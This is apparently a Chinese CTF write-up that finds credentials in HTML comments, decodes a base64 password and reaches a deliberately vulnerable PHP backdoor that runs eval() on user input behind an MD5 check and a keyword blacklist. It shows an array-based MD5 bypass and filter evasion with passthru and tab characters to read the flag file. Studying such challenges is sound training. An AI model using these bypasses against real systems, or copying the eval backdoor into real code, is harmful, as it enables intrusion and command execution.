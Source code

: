 `CTRL+u`查看html文件之后,拿到了账号和密码

```
<!-- 声明：此登录系统由Ewoji，Emoji，Ekoji，Ecoji共同开发，现为测试阶段，系统管理员默认账号密码为Ewmkcoji/admin123aA，系统开发完毕时，请务必删除这条注释！！！！！！！！！！！！！-->>
```

试了一推指令，根据提示我们继续`CRTL+u`

```
<!-- 即使我还是把密码放这又怎样，反正我加密了嘻嘻cGFzc3dkOnhpeGl4aXhpX3dlbGNvbWVfdG9fdGhlX2ZpbmFsX2NoYWxsYW5nZQ==   -->>
//http://www.hiencode.com/base64.html,我使用的这个网站解码：
//解码结果如下：passwd:xixixixi_welcome_to_the_final_challange
```

我们将解码的密码输入这个命令行中后

得到:

```
终端是你的谎言，我才懒得写，留个后门不更方便吗？后门地址/Ewoji/final.php
```

访问这个地址：得到最后的题目

```php
<?php
//我是何晨光，我不想在战场上敌人捡到我的后门就可以直接使用，所以我决定加点限制
highlight_file(__FILE__);
error_reporting(0);
if(isset($_POST['num1']) && isset($_POST['num2'])){

    $num1 = $_POST['num1'];
    $num2 = $_POST['num2'];

    if( $num1!=$num2 && md5($num1) === md5($num2)){
        echo "继续吧";

        if(isset($_GET['cmd'])){
            $cmd = $_GET['cmd'];
            if(!preg_match("/flag|system|php|cat|\*|\_|tac|less|more|\.| |\'/i", $cmd)){
                eval($cmd);
            }

        }
    }else{
        echo "nonono";
    }
}
?>
```

1. 首先是`md5`绕过，**这里我使用的工具是HackBar** ，我采用数组的形式绕过第一层if

2. 发现禁用了一些命令执行、单引号、空格，我这里采用`passthru("ls%09/")`
3. 发现flaaaaag文件，采用`uniq`读取文件，发现了如下内容，需要提取数据，这里我手工提取

```
	secret:fl
	secret:ag{
    secret:sal
    secret:lasj
    secret:lsd
    secret:13-
    secret:m
    secret:cc
    secret:ab
    secret:ob
    secret:2
    secret:4
```